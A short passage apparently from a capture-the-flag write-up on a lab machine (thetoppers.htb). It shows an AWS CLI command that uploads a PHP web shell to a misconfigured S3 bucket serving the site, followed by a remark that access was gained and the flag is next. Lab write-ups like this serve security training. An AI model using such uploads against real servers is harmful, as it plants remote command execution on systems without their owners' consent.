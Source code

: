 ```shell {linenos=false}
$ aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
```

We are in.

![rs](/img/tier1/rs.png)

Let's search for the flag and be done :grin:
